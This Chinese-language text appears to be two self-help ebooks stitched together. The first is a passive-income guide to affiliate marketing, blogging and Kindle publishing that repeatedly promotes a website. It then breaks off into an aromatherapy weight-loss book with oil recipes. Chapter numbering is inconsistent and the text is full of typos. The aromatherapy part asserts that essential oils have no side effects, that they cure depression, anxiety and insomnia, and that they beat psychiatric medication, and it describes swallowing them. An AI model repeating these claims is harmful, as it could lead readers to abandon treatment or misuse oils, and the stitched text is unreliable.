我写这些并不是为了我自己的利益。我已经在我的道路上了，我的生活发生了巨大的变化。我想帮助你过上你一直梦想的生活，并且我知道 Kindle Publishing 可以实现这一点。这就是这个网站的全部意义。我这样做是为了个人兴趣，因为我喜欢帮助他人，而且我知道什么是有效的。

访问我的网站 PassiveIncomeAssignment 并注册以获取我的免费被动收入产生指南，并学习关于 Kindle Publishing 需要的所有知识。

# 第二章：联盟营销 (Affiliate Marketing)

你是否有兴趣在睡眠时赚取潜在的六位数收入？如果是的话，那么联盟营销可能适合你。

联盟营销是指当你引导客户购买他人的产品或服务时，获得的佣金。这是一种产生收入的绝佳方式，因为它非常简单……

这是因为你不需要投入任何精力和去创造产品。卖家已经通过制作产品、创建网站和销售页面完成了这些工作。你所做的只是将访问者引导到联盟营销网站，每有一笔交易，你就能获得佣金。

这有多棒呢？

如果你目前拥有一定规模的粉丝群体，这可能是你在线赚钱的一种既有效又简便的方法。

我的目标是让这成为我网站的大部分，不仅是为了收入，我还想通过向人们推荐帮助过我的工具和资源来帮助他们。

我向人们推荐的每一个东西都是因为我用过它，并且对我的生活和业务产生了积极影响。我希望我的成功源于开放和建立信任，所以如果我发现了一个我喜欢的服务或课程，我想和你们分享那个内容。

# 通过联盟营销赚钱的 3 个简单步骤

## 1. 创建博客或网站以建立粉丝

我创建了一份关于如何创建自己的网站的逐步指南。点击[此处](Here)查看。

这是通过联盟营销在线创造被动收入的首要重要步骤。

联盟营销的核心理念是创建一个价值来源，让人们来到这里，信任你所做的事情并想要听取你的意见。

在这里，你可以推荐对他们有益的产品和服务，同时为自己赚取佣金（他们不需要支付额外费用）。这对你们双方来说都是双赢的局面。

为了通过联盟营销赚钱，你必须首先建立粉丝群体。这可以通过邮件列表或创建网站来实现。如果我评价了某个产品，而某人正想买它，我的网站就会出现，如果他们加入了，我就会获得佣金。

很酷，对吧？

有时候，让博客在谷歌上长期保持排名很难，而我发现使用 YouTube 视频评测产品并将其发布在博客上要更容易获得排名……

这是因为 YouTube 是由谷歌拥有的，其地位远高于一个新博客。这是一个你可以利用来让自己占有利位置的强大工具。

另一种进行联盟营销的例子是创建一个资源页面，列出你所有喜爱的的产品和服务。你可以对每一个项进行简短评测，如果有人感兴趣，他们可以点击链接，这将带他们进入公司页面。点击[此处](Here)查看我是如何做的。

## 2. 建立邮件列表进行营销

我创建了一份关于如何创建和建立邮件列表的逐步指南。点击[此处](Here)查看。

在你建立起某种营销平台后，是时候建立你的邮件列表了。

这是一个非常重要的一部分，而且在我看来，是必不可少的。一旦你有了列表，就是时候为你的订阅者提供精彩的免费内容，并且推荐优秀的产品。

这是我在线赚钱的另一种方式。

在我的网站上，有一个订阅区域（opt in section），让人们加入并接收这份被动收入指南，以及其他博客上没有提供的其他酷内容。一旦人们订阅，我就收到了他们的邮箱。

要记住的第一也是最重要的一点是，你**必须**专注于提供价值和建立信任。我通过发送尽可能多的高质量内容来实现这一点。

然后，只有这样，你才能开始向你的列表推广产品。

如果你立即开始这样做，在他们信任你之前，所有人都会取消订阅，因为没有人想收到推销东西的人发的大量邮件。

但我无论如何强调都不为过，首先提供尽可能多的免费内容。

这是一个极其强大的工具，因为如果有一个我非常喜欢的的产品，并且我认为其他人也会喜欢，我可以轻松地将该信息发送给我的列表。我相信这是公平的，因为我花费了这么多时间来整理这些内容，让他人的生活变得更容易。

这里有两个重要的部分需要记住……

-   你**必须**只推荐你相信并且能让他人受益的产品，而不仅仅是为了赚钱。你必须始终将访问者放在第一位，所以只推荐你感到非常舒服的产品和服务。
-   不要对你的列表过度推广。你必须在价值和推广之间保持平衡。你需要给你的访问者提供足够的价值，这样他们才愿意不断回来，而失去访问者的要方法就是直接向他们推销东西。

这里的核心教训是，建立列表最重要的部分是与你的访问者建立信任和关系。你必须像照顾自己一样，甚至更地照顾他们。

## 3. 为你的网站产生流量

一旦你的网站上有了精彩的内容，就是时候开始引入流量了。

你有许多方法可以实现这一点，例如 SEO 优化、关键词、广告和社交媒体。我最喜欢的为我的网站产生流量的方法之一是通过我的 Kindle 图书。

我创建的每本书都会获得数百次下载，在每本书中我都会向人们推广我的网站，所以这是一种进入大量人群面前的非常简单的方法。

例如，写一本关于如何交易廉价股（penny stocks）的书。这会出现在数百人面前，而且很有可能，他们会想要下一步的建议。

在这里我可以引用我的网站，并与他们分享我参加过的关于交易廉价股的课程。他们会很高兴，因为他们学到了更多，我也会很高兴，因为我获得了收益。

我的 Kindle 图书也可以用来建立列表。

无论你选择哪种方法，我都不禁强调学习过程有多么重要。即使你在进行第一次交易之前花费了整整一年的时间，这也是完全值得的。尽力所能学习，并只在你感到自在时才进行交易。

我已经尝试过这两种方案，所以我非常清楚时间成本与多花点钱之间的权衡。选择权完全取决于你，所以无论你选择哪一个，只要投入精力，你就会成功。

市面上有许多提供课程的人，我也尝试过其中几个。我绝对建议你参加这些课程之一，而不是尝试自己摸索。访问我的网站 PassiveIncomeAssignment 查看我的建议。注册我的指南，学习你如何从今天开始！

# 第 4 章：写博客

我写博客已经有一段时间了，它让我大开了眼界，让我意识到博客是多么强大。我的目标是把我的网站做成一个六数字的业务，我想与你们分享我计划如何实现这一点。我将在后的文章中分享更多关于如何逐步操作的详细信息，但现在请记住，这**不是**一种暴富的方法。博客是一个漫长的过程，你需要投入时间和精力才能获得成功。如果你坚持下去，这可以为你产生足够维持余生生活的钱。

## 你的博客的重要部分

在创建一个成功的博客时，你需要做很多事情。没有访问者就无法产生收入。是什么让人们来到你的博客并购买东西？首先，你**必须**创建对你的观众有价值的优质内容。内容应该是免费的，并为他们提供改变生活的信息。你需要每天都有稳定的访问流量，并且人们为了更多内容回来。这是建立博客最困难、最耗时的过程。记住，只有当你创造了史级的内容，人们才会回来。在从他们那里获得任何东西之前先提供价值。你需要编写能够激励人们并改变他们生活的内容。一旦制作了这些内容，就可以开始分享并推广你的网站了。

## 如何为网站获取流量

搜索引擎优化（SEO）——获取网站流量最重要的方式是通过 SEO。这意味着你的博客在 Google 的关键词中排名更高。当人们搜索你的关键词时，他们通常会点击前几个网站，因此你的大部分流量将来自 Google。在博客上有很多高质量内容是非常重要的。

Youtube——在 Youtube 上创建高质量视频是获取网站流量的另一种强大方式。Google 在其搜索引擎中对视频排名很高，所以如果他们喜欢你的视频，他们就会想要更多并点击链接回到你的博客。

社交媒体——社交媒体是分享内容的绝佳方式，因为许多人都在使用。它允许你直接向对你的特定内容感兴趣的人进行营销。使用 Facebook、Twitter、Instagram 和 Pinterest 将触及大量人群。

留言板——通过进入留言板，你可以直接与对你领域感兴趣的人进行交流。发布带有指向你页面链接的有用内容将为你带来一些流量。这唯一的问题是不要推销你自己。先提供价值，再推广。

客座投稿——在与你领域相关的其他热门博客上写客座文章也可以为你带来大量线索。联系这些人，询问他们是否允许你在他们的网站上发表客座文章，以换指向你博客的链接。

通过创建优质内容并使用这些技巧，你将接触许多人并获得大量粉丝。坚持下去，你就会获得成功。

## 如何通过博客赚钱

一旦你的博客获得了一定的粉丝，就是时候开始赚钱了。你有许多方法可以实现这一点，我将从最重要的开始。

### 构建邮件列表

你的博客第一个也是最重要的部分是你的邮件列表。这些是信任你并想要获得你发布的所有内容的忠实粉丝。要做到这一点，你需要一种获取他们联系信息（电子邮件地址，的方法。这允许你与他们进一步交流，并直接向他们提供产品/信息。这建立了他们建立了关系，是从博客中创造收入的关键步骤。

一旦人们进入你的邮件列表，你就需要一种向他们发送直接消息的方法。我使用 AWeber。它允许你向一组人创建并发送电子邮件。如果你只想向订阅者发送信息，或者只是通知他们新文章，这个资源将非常有帮助。

一旦建立了关系，你现在就可以开始推荐对他们有用的产品。这会起作用，因为他们信任你并希望成功。这将非常有帮助，因为如果你出一款产品，你将有一群立即购买的人名单。

如果你想学习如何设置邮件列表，请查看我的[这里](Here)逐步指南。

联盟营销——当你推荐一种产品或服务，并且当有人购买时，你就会获得佣金。这只有在你的观众认识并信任你时才能使用。这就是为什么你需要先创建一个列表。

现在列表已经做好了，你可以向他们发送你信同并知道对你的列表有帮助的产品信息。不要只推荐随机产品。有很多不同的产品为联盟营销人员供其粉丝进行营销。我使用 Clickbank。一旦你找到与你领域相关的产品，你就可以用你的唯一 URL 来推广它。

再次记住，这首先是为了帮助你的观众，如果你能从中获利，那只是额外奖励。

广告——这是从博客中赚钱的最传统的形式之一。你可以找到提供这种服务的的产品，或者可能会主动找你。基本上，这就是在你的网站上放一个链接或横幅，每当有人点击时，你就能获得报酬。金额完全取决于你广告的内容。

在网站上放置横幅可以产生收益，但重要的是不要让广告充斥页面。这会给用户带来负面体验，他们将不再信任你，因为你所做的只是向他们推销东西。

# 第5章：构建终极被动收入机器

你应该已经看过了之前关于如何通过不同技术获取被动收入的章节。现在时候将一切整合在一起，构建终极的被动收入机器了，每个部分将相辅相成。如果这种策略执行得当，它将为你余生创造收入。这需要时间，所以不要期望不付出任何努力就能变百万。

我将从最简单、最快的获取被动收入的方法开始，因此你需要做的是从这里开始，一旦成功就移动到下一步，以此此类推。在这篇文章中，我将提供一份通用的指南。我创建了更多关于如何操作这些内容的详细文章，所以请在阅读本文后查看它们。我会在文中链接所有内容。让我们从 Kindle出版开始。

# 第1步：Kindle出版

这是我们的第一步，因为 Kindle 出是在线赚钱最快、最简单的方法。你不需要成为作家就能这样做，因为创建这些书籍的人中90%并不是作家。我们希望我们的书籍以后与我们的网站相关，所以如果你的博客是关于烹饪的，你就想要相关的书籍。

一旦你制作了一系列相关的书籍，你不仅将从版税中开始赚钱，还将利用这些书籍来推广你的博客，反之亦然。这种方式非常强大，因为通过在亚马逊上拥有书籍并利用他们提供的免费推广，你可以在几天内接触到数百人。如果这些人喜欢了你的书，他们就会去你的博客，并可能成为你的客户。

# 第2步：创建博客/网站

现在你已经在某个利基领域有一系列书籍，是时候创建你的网站或博客了。你起初的目标应该是创建对你的读者完全免费的优质内容。你希望先与他们建立关系以建立信任。一旦建立了关系，你现在就可以开始推广并让你的博客变现。这的一个例子是通过你的博客推广你的 Kindle 书籍。

接下来你想做的事情是创建一个邮件列表。邮件列表是指人们订阅你的邮件列表，因为他们想从你那里获得更多。他们提供电子邮件地址，你为他们提供很棒的内容。这是你将拥的最强大的资产，因为这些人已经信任你，他们基本上会购买你推到面前的任何东西。他们不仅会买你的书，还会买你推荐的产品。今天互联网上最成功的人说，金钱在列表中，所以不要忽视这一步。

# 第3步：联盟营销

现在你的博客有了优质内容，而且你拥有了一定的粉丝群，你现在可以开始作为联盟伙伴推广他人的产品了。这意味着你向他们推荐某种产品或服务，如果他们购买，你就会获得佣金。你应该只推荐与你的利基领域相关且你亲自尝试过的产品。**不要推荐你没有购买过的随机产品。**这背后的整个理念是你为他们提供有用的工具和资源，这些资源将在某些方面对他们有利。你的首要任务应该是帮助他们，赚钱应该排在之后。这对你们双方都是双赢的局面。

# 第4步：投资

现在的问题变成了“我该如何处理我赚的钱？”答案取决于你的个人情况，但应该有一部分比例进入你的投资账户。投资资金有多种方式，这取决于你的风险承受能力。核心思想是利用长期的复利。阿尔伯特·爱因斯坦曾说：“复利是宇宙中最强大的力量。”

你需要确定每个月将收入的多少存入你的账户，作为一个一般原则，它至少应该是你每月收入的 10%。显然，投入得越多越好，因为它会随着时间的推移呈指数级增长。

你可以选择成为主动投资者或被动投资者。主动投资者意味着你积极买卖股票以获得资本利得。被动投资者意味着你进行长期投资并获取股息支付。无论你选择哪种方法取决于你的兴趣，但你绝对应该遵循一种方法。在我看来，投资是积累财富的第一要途径，它是必须的。

就是这样。这就是我用来构建我的被动收入机器的策略，以及我是学习如何做它的。如果你愿意投入精力和精力，这个过程相对简单。不要期望一夜暴富。这是一种长期的财富积累方法，非常值得投入时间和精力。

你不需要完全遵循这种方法，只做其中一种也是可以的。我发现这是对我来说最好的策略，我想把这分享给你们。通过让我的 Kindle 书籍产生前期收入并推广我，通过我的博客推广我的书籍并通过联盟产品产生收入，然后将一部分比例投资于股票，我相信这就是能长期为我挣钱的终极被动收入机器。现在轮到你做同样的事情了。访问我的网站，确切了解你今天如何开始任何这些技术。
www.PassiveIncomeAssignment.com

## 结论

正如我之前所说的，通过充满心地应用我在书中所讨论的内容，我完全相信你能够获得你一直想要的东西并过上品质的生活。唯一阻碍你的是你自己，所以不要害怕走出去获得你所想要的一切。

感谢阅读这本书。我绝对希望你从中获得了价值。我祝你的旅程一切顺利，并记住永远不要满足于现状，你值得更多。

如果你从这本书书中获得了价值，那么我想请你帮个小忙。你是否肯意在亚马逊上为这本书留个评论？点击下方的链接进入亚马逊评论页面！

点击此处进入亚马逊评论页面

我想让更多的人通过这本书接触到，更多的评论将帮助我实现这一目标。

再次感谢，并祝你好运！

# 为什么你应该使用精油和芳香法

如何从零开始制作自己的精油

以及更多内容！

你还在等什么呢？开始阅读并改变你的生活方式吧！

感谢你下载这本书，希望你喜欢它！

不要忘记查看我最喜欢的饮食法之一，并学习我在底部提到的通过3周饮食法快速减掉顽固多余脂肪的策略。

# 第1章：芳香法

在锻炼过程中，你是否经常感到疲劳和压力大？在看到体型任何显著改善后，你是否经常陷入抑郁和焦虑的陷阱？你是否渴望获得理想的体型，但目前的做法对你不起作用？如果是这样，那么你不再需要担心，因为这本书将引导你了解一种可以极大地帮助你减重的兴奋事物。

对我们大多数人来说，减肥可能是一项艰巨的任务。虽然每个人都期待获得纤苗、健称的身材，但只有少数人能坚持执行严格的饮食和运动计划。虽然运动和饮食对减肥至关重要，但它们有时需要大量的时间才能产生理想的效果。

对于我们大多数人来说，我们的运动计划对身体似乎并不有效，饮食也没有让脂肪显著减少。虽然许多人可能会继续健身多年，但我们大多数人会失去希望，放弃了变瘦的梦想。坚持严格的运动和饮食计划对我们大多数人来说可能是压力的，这导致许多人陷入抑郁和暴食症，并离他们的减肥目标越来越远。

在这些情况下，你需要一些能够提升你的情绪、并让你充满决心和动力去减轻获得的多余脂肪的东西。你需要一种可以增强你心理健康健康的东西，这样你就能更好地控制食欲，并且无论锻炼看起来多么困难，都能坚持下去。这就是芳香法大显身场的地方。它增强你的能量，提升你的心情，减轻压力，并改善身心健康。只有当你精力充沛、充满动力且身体健康时，你才能专注于你的目标并获得你理想的体型。

在我们继续告诉你是芳香法如何帮助减重之前，让我们先告诉什么是真正的芳香法。芳香法是一种使用受控量的精油来增强你的身体、心理和精神健康的技术。你可能在这里在想，这本书是关于某些甜美且迷人的气味，就像某些香水的味道，每当我们闻到它们时就会让我们感觉好起来。为了打破你的幻想，芳香法并不是关于闻所有的好气味。只有某些特定的精油气味被证明对你的健康和健身是有效的。

你们中可能有人人听过祖父母告诉他们使用精油来治疗疾病。因此，使用精油进行治疗并不是新事，因为这些精油在古代也一直在治愈人们。对于印度和罗马的人来说尤其如此，他们曾依赖于使用某些精油来维持健康和健身。好消息是，这些精油确实有效并能增强你的身体、心理和精神健康。当它们能治愈古代文明的人时，它们也能治愈你。

# 什么是精油？

既然你已经听过某些精油的重要性，让我们来介绍那些以疗法功效闻名的精油。正如我们之前提到的，并不是所有的精油都能减轻你的压力或帮助你控制饥饿。只有精油才能像魔法一样作用于你的大脑，消除你的焦虑和抑郁。

精油是所有从植物中提取的、并因香气和疗法功效闻名的油。由于它们是从植物中提取的，因此包含了提取它们的植物的叶片和花朵中储存的治愈力量。你可能期望这些精油像你在市场上看到的普通油一样。然而，与你的想法相反，这些油并不是粘稠且厚腻的。事实上，其中一些像水一样透明，许多则呈愉悦的颜色。

使用精油来确保健康的想法对你们的大多数人来说似乎是荒谬的。你可能好奇仅仅是油如何消除压力和焦虑并减少额外卡路里。好吧，无论你信不信，研究表明这些精油的香气会刺激你大脑的部位，释放让你感觉良好且充满活力的化学物质。你还会开始感到冷静和放松，忧虑也会消失。那时，你就能专注于你的锻炼，并动力继续你的饮食，无论这些饮食看起来多么徒劳。因此，请消除你对芳香法的所有怀疑，与我们一起开启这段旅程，我们将告诉你如何使用某些精油获得巨大的健康益处。

# 芳香法的益处

减肥不是你使用芳香法所获得的唯一益处。这种技术可以提供许多益处。虽然你们中有些人可能使用芳香法来治疗抑郁和焦虑，但许多人使用这种方法来消除身体和肌肉酸痛。芳香法有能力治愈你的头痛、提升你的情绪并改善你的消化，使你能以适当的方式进食。即使你经历失眠且通常很难入睡，这种技术也将确保你所有的忧虑和问题都能消除。

芳香法也被认为对经期问题非常有效，因此女性可以从这项神奇的技术中大获益浅。简而言之，芳香法以解决我们的许多身体、心理和精神问题而闻名，并且治疗你想要消除的问题有效。因此，如果你经常感到头痛和失眠，或者经常感到低落和抑郁，是时候把你的资源投入这种廉价的疗愈方法了。

然而，为了进行芳香法，人必须知道在特定情况下有效的精油。因此，让我们来看看一些足以增强你身心健康的精油。

# 薰衣油

薰衣油是一种非常著名的精油，用于治愈抑郁、消除焦虑并缓解生活中的压力。

# 柠檬油

来自这种柑类水果的芳香法非常有益，因为它将帮助你在最压力巨大的情况下放松。因此，在工作了一整漫长而疲惫的一天后，用这种油进行一次疗程吧。

# 荷荷油

对在列表中看到荷荷油感到惊讶吗？是的，它被用于头发相关产品，但在芳香法中使用也非常有效。

还有许多其他精油，如牛油油、茉莉油和薄荷油，它们提供上述提到的所有益处。然而，这并不是全部。在治疗之前，人必须考虑各种因素，并且有许多方法可以用来获得你想要的结果。

对探索这种疗愈方法感到兴奋吗？进入下一章以了解它的用法和益处。下一章将告诉你应用芳香法的准确方法，这样你就可以轻松使用它并看到你健康和健身的改善。

# 第2章：如何使用精油

现在你已经知道了芳香法的益处，是时候让我们带你了解它的应用方法了。学习如何使用精油至关重要，因为这种技术可能有自己的风险和副作用。尽管如此，使用精油并不是一项困难的任务。它只需要小心、预防以及对每种应用方法和可用精油的充分知识。

通常，你有三种方式可以使用这些精油：吸入法、局部法和内服法。每种方法取决于你所的问题以及你使用的精油。某些方法适用于所有疾病，而某些方法仅适用于特定问题。因此，你必须通过下面描述的每种方法，以分析哪种方法对你有效。

# 吸入法

你可能经常闻到气味后感觉不好，或者闻到雨味后感觉好一些。这是因为气味有影响我们情绪、提升我们能量或让我们低落的力量。同样，精油的香气强大足以影响我们的大脑，释放良好的化学物质并让我们感到充满动力和决心。当气味从鼻子进入大脑处理情绪和感觉的部分时，就会发生。在那里，气味与大脑相互作用，并从垂体释放特定的激素，从而改善我们的身心健康。

气味与大脑的相互作用还会改善我们的血压和心率。

除了与大脑互动外，香气还会进入你的肺部并治疗其他的生理疾病。因此，精油的香气是消除我们焦虑和担忧的工具，特别是与体重相关的担忧。

然而，并不是所有的香气都有相同的效果。精油的香气与其他所有气味不同，因为它包含了提取该油的植物的益处。因此，香气将带给你与涂抹油相同的益处。你还有其他方法可以吸入香气并体验其益处，第一种就是直吸。

## 直接吸入

要通过香法使用精油，一种方法是直接吸入油的香气。这种方法涉及在手上滴几滴精油，并吸入油滴散发的气味。你也可以将鼻子靠近油瓶口直接吸入香气。确保你不要反复打开和瓶盖，因为暴露在空气中会导致油变质。在使用这种方法时，也必须注意使用的精油。某些油（如牛至油和肉桂油并不适合直接吸入，因为它们必须先稀释。因此，当你计划直接吸入精油的香气时，请务必研究你是否可以使用浓缩形式的精油。尽管有这些预防措施，如果你想快速缓解情绪困扰或呼吸系统问题，这种方法是有帮助的。

## 扩香机

这是一种吸入精油香气的流行技术。它将油放入电动扩香机中，使油在空气中扩散，以便你可以吸入香气。这是一种安全的做法，因为它防止了油在与空气接触后氧化。

你必须确保你的扩香机是高质量的，以便扩散过程顺利进行。这意味着你的油不应该因热损坏，并且应该在空气中停留长时间。和直吸一样，确保你了解你的油可以直接用于扩香机，还是在使用前应将其稀释或与其他油混合。

如果你担心扩香机的成本，你必须放下所有顾虑，因为市场上有很多廉价的选择。你还可以找到不同类型的扩香机，如雾化扩香机、热扩香机或被动扩香机。去市场看看，选择一个完美符合你需求、要求和预算的。

 通过棉球或手帕吸入

吸入你喜爱的精油香气的另一种方法是在棉球或手帕上滴入2-4滴油，并将布料或棉球靠近鼻子吸入气味。你也可以为此目的使用任何织物。

## 蒸汽吸入

你可能经历过通过吸入蒸汽来打开堵塞的鼻孔或为了某些美容打开毛孔。如果在蒸汽中加入香油然后吸入气味会怎样？这种方法绝对会增强你的大脑活动，并提供即时的镇效果。你还会发现呼吸系统问题将通过这种吸入方法得到解决。要这样吸入香气，向热的水中加入几滴（通常是五滴）精油，然后用毛巾盖住头部吸蒸汽。放松并缓慢呼吸几分钟以康复。

虽然吸入香气的方法似乎是使用精油最简单的方法，但它也有优缺点。这种看似无害的方法如果过度吸入香气，可能会头痛、身体疼痛和其他严重问题。此外，你的身体可能对某些油的香气产生负面反应。因此，确保充分研究这些油，并吸入小比例且稀释的油，以观察你的身体是否适应。

现在让我们来看看另一种流行的精油使用方法。

## 外用

外用精油是指对油进行外部使用，你可以按摩这种油或将其直接涂在皮肤上。不要掉入误区，认为这种方法非常简单，你可以将任何数量的油涂在皮肤上。正如我们在书开头提到的，芳疗法是一种受控的程序，你必须注意你使用的油的数量和类型。在外用精油之前，始终确保你遵循每种技术提到的指南。

## 按摩

你无法否认按摩的放松效果。从外部获得按摩总是感觉良好，特别是在工作了一天疲惫的工作之后。因此，你可以想象如果用精油进行按摩，你将获得什么益处，因为精油已知能提供更多镇静的效果。因此，下当你决定进行身体按摩时，尝试尝试使用合适的精油，以获得巨大的生理和心理收益。

按摩时，你通常需要将油与基础油混合，基础油通常是普通油，如杏仁油或乳木树脂。通常你会在30ml基础油中加入约15滴你的油。这种按摩最棒的部分是，你不需要专业人士就能获得治疗益处。你可以自己按摩，也可以让亲的人对你的身体按摩。

虽然这种方法总能让你冷静并帮助你放松，但你必须确保这种油适合你的皮肤。为了安全起见，使用稀释后的油，并始终在皮肤的一小块区域测试油。如果你感到刺激、发红或疼痛，请完全放弃这种油。

## 压缩

使用精油的另一种好方法是在温水中加入几滴精油，然后浸湿一条布并将其敷在身体部位上。你可以将湿布敷在最需要缓解的区域。例如，对于头痛，将布敷在额头上；或者如果你想缓解经痛，则将布敷在腹部。

## 芳香沐浴

在忙碌了一天之后，浸入充满你喜爱的香气的浴水中还有什么比这更放松的呢？这种技术无疑会充满正能量，让你在疲惫后仍继续运动。你的疲劳将会消失，瞬间感到神清气爽、充满活力。

为了获得这些人的益处，将几滴精油与基础油混合，在进入浴室之前加入。虽然吸入是通过呼吸起作用，而外用是通过吸收的，让油分子渗透到身体内部并通过血管到达器官。这时，油分子会与器官互动并解决你的问题。然而，这种技术需要大量的关注和预先研究，因为每种油都有自己的风险和问题。例如，某些油在阳光下可能是危险的，你必须在用这些油后避免外出。同样，某些油对你的朋友有效，但对你可能无效。因此，你必须始终了解你正在使用的油的危害以及你的皮肤类型。

## 内服

精油的内部使用是指直接摄入。由于精油有时非常强，除非你有专业人士指导，否则不建议使用这种方法。内服需要高水平的专业知识和知识，因此在没有咨询专家的情况下，必须避免在家这样做。

作为预防措施，摄入稀释后的油且剂量要小，因为大量的精油往往会损害身体而不是提供缓解。你还必须确保你的油对你正在使用的疾病是有效的，因为并不是所有的油对你的头痛或抑郁都有效。

因此你可以看到，你有许多方法可以使用精油。每种方法都有自己的风险和注意事项，但它们对你的身体益处层之不尽。每种方法都会以不同的方式改善你的心理、生理和精神健康，并帮助你在短时间内克服痛苦和疾病。此时，不要匆忙，在没有进一步研究的情况下就开始使用这些油。为了了解针对你的问题最有效的配方，请读到书的最后，在那里我们将让你了解一些神奇且有效的芳疗配方。

## 第3章：为什么你应该使用精油

精油是大自然送给人类的礼物。它们不仅对我们的身体，对我们的精神和心理健康都有巨大的益处和优势。在上一章中，你已经学习了如何使用精油。现在是时候学习如何利用这些非常有益处的精油来改善你的身心了。本章还将为你阐明为什么你应该始终优先选择精油而非任何其他疗法。

## 无副作用

在使用之前，你脑海中浮想到的第一件事可能是精油可能的副作用。你可能会怀疑它的疗效，并可能担心产生任何不良反应。与你的认知相反，精油没有任何副作用。你可以安全地使用它们来治疗疾病，而无需担心对身体造成伤害。尽管如果不在控制范围内使用，精油可能会干扰你的身体，但那种干扰总是暂时的且不痛苦的。当精油不会导致任何危险时，你可能只会经历头痛或头晕。

精油是纯天然的，因此不含任何可能以任何方式伤害你的化学物质。相比之下，人造的药物很容易产生副作用，特别是那些用于治疗抑郁、焦虑和其他精神疾病的药物。因此，与其使用可能伤害你身体的药物，使用能提供同样更好缓解的天然精油不是更安全吗？

## 廉价

在出现任何问题时，精油应该成为你首选的另一个原因是其相对成本。你可能会认为一瓶益处对你来说太贵了负担不起。幸运的是，精油并非如此。你喜欢的精油在市场上可以以廉宜的价格买到，不会给你的预算带来任何负担。此外，如果你投资了一瓶精油，请准备好享受这瓶油至少五年的益处。由于治疗疾病只需要几滴精油，一瓶油可以使用很长时间。它们难道不比你用来治愈自我的所有昂贵药物更好吗？

## 压力缓解器

无论你感到多么快乐和满意，压力永远不会离开你的生活。我们每个人都会为日常生活中的微小事情感到压力，这是完全正常的。然而，问题出现在压力持续存在且我们长期无法摆脱它时。这时焦虑就会随之而来，你会感到头痛、胃痛和恶心。你们大多数人会生气，或者求助于烟草和酒精来暂时逃避焦虑的世界。如果你经常感到压力且无法摆脱，你需要寻求芳疗来获得立即缓解。

精油具有消除压力和焦虑的能量，让你能够快乐地完成所有工作并管理生活。某些精油（如薰衣草油）可以与大脑互动，并在大脑因琐碎问题感到压力时使其冷静下来。因此，在你喜欢的 Spa 预约预约，享受一次良好的精油按摩。按摩将瞬间让你充满和平、宁静和和谐。你的压力将会消失，你会发现自己对任务和日常生活更加专注。

## 减肥

我们知道在派对上吃这些美味的菜肴，以及与爱人出去吃饭并点像沙拉这样不解馋的食物有多么困难。我们理解早晨动动腿在公园跑步，然后在一天中剩余时间里在办公室保持专注有多么困难。对于所有希望看起来苗条又干练的人来说，遵循严格的运动和饮食计划是一项极其艰巨的任务。对于你们所有的美食爱好者来说，尤其如此，你可能发现控制频繁进食的诱惑极其困难。你最终会定期吃你喜爱的汉堡，体重在几周内飙升。

这就是芳疗对你可能非常有益处的地方。它有帮助你控制食欲的能量，因此你会发现你的诱惑会逐渐减少。众所闻闻某些精油可以减少食欲并产生饱腹感。因此，你不会那么想吃你喜爱的垃圾食品，体重将保持在控制范围内。另一方面，如果你在锻炼期间很容易疲劳，很少有运动的动力，吸入精油的香气可以瞬间让你充满能量，通过这种能量你可以发挥最大的运动潜力。简而言之，如果你想达到理想体型，必须开始将精油融入你的日常生活中。

## 其他益处

芳疗不仅是为了抑郁、焦虑或减肥。这种神奇的技巧对你和你的身体充满了益处。除了在压力状态下保持冷静外，这些精油还能帮助良好睡眠并消除失眠。如果你通过吸入精油、洗带有你喜欢的香气的热水澡或进行一次良好的身体按摩，就可以轻松实现。这些技术中的每一种都是如此舒缓，它们能帮助你在短时间内入睡。无论你晚上感到多么失眠，睡前一次良好的按摩都能带你进入梦幻世界，帮助你沉浸在平和睡眠的世界。你将睡得更好，醒来时充满一天的能量和动力。

芳疗还有许多健康益处。它能改善你的血压并增强体内的血液循环。吸入香气还能改善你的呼吸系统。肺部问题将得到解决，你能正常呼吸。你还可以通过精油的帮助增强消化系统。吸入蒸汽或直接将油涂在胃部上将改善消化系统并增强肠道功能。

只有当你身体、心理和精神健康得到维持时，你才能有效地减肥。因此，请获取这些精油，并阅读下一章以发现减肥的方法。

## 第4章：配方

现在你已经了解精油的益处，是时候将理论付诸行动了。你现在拥有了足够的芳疗知识，因此可以在家里尝试这些技术。在家里进行芳疗并不是一项难以完成的任务；它只需要控制精油的使用、对每种技术的充分了解以及对过度使用风险的认识。

有很多配方供你选择，针对你的各种问题设计。这些配方最好的部分是，它们也可以用于解决多个问题。例如，你为头痛制作的特定配方可能对治疗抑郁同样有效。此外，对于单一问题，你会发现许多治愈它的配方。你可能会发现超过10种仅针对焦虑的配方，还有几个针对血压的，例如。无论你遵循哪种配方，请确保它来自可靠来源，因为未经测试的配方可能对你使用的问题无效。

以下是一些配方，已知对下方提到的每个问题都有效：

### 消除疲劳

为了在忙碌的一天后感到清爽，将6滴葡萄柚油、5滴马蹄草油、4滴百里香油混合在15毫升的任何基础油中并充分摇匀。用这种混合物进行按摩，看看它带来的神奇益处。你会立即感到神清气爽、充满活力。

### 放松肌肉

如果你在运动后经常感到肌肉紧张和酸痛，你必须放松肌肉以便继续锻炼。为了做到这一点，在15毫升你喜欢的任何基础油中混合4滴薰衣草油、5滴尼加利油、3滴松树油和3滴黑椒油。将混合物稍加热。

并进行快速的放松按摩。你也可以自己为受影响部位按摩油。只需确保在受影响的肌肉上充分涂抹油至少 15 分钟。

# 消除焦虑

有很多配方可以消除你的焦虑。你还可以通过更多种方法使用精油。一种著名的缓解焦虑配方是使用 12 滴薰衣草油和 8 滴鼠尾草油并混合。按照说明将混合物加入香薰机，体验即刻的平静与平和。或者，你也可以使用 9 滴薰衣草油和 6 滴鼠尾草油，将混合物加入浴缸中享受一次放松的沐浴。

# 摆脱抑郁

混合 4 滴薰衣草油、4 滴依兰木油和 12 滴果果油制成混合物。在香薰机中使用这种混合物，吸入其香味，告别抑郁。如果你更倾向于按摩，可以将这三种精油的量减半，并加入 1 fl. ounce 基础油来享受一次放松的按摩。

# 失眠配方

使用精油将帮助你在晚上轻松入睡。你只需要将一些精油滴在纸或棉球上，并放在枕头下。持续吸入香气后，你就会入睡。

制作这个配方，你只需要 5 滴鼠尾草油、5 滴佛柠檬油和 10 滴罗马甘菊油。将三种油充分混合并滴在布上，享受宁静的睡眠。

# 减肥配方

虽然上述所有的配方都会间接帮助你减掉储存的多余脂肪，但这个特殊的配方将直接帮助你控制体重。该配方将确保你的食欲保持在范围内，并且在任何时候都不会过度进。

制作这种混合物，在一茶匙粗海盐中混合 30 滴葡萄柚油、1 滴依兰木油和 4 滴柠檬油。将混合物加入深色瓶中，连续深呼吸三次吸入香气。稍作休息片刻，再次吸入香气 3 次。再次休息，最后重复一次该程序。

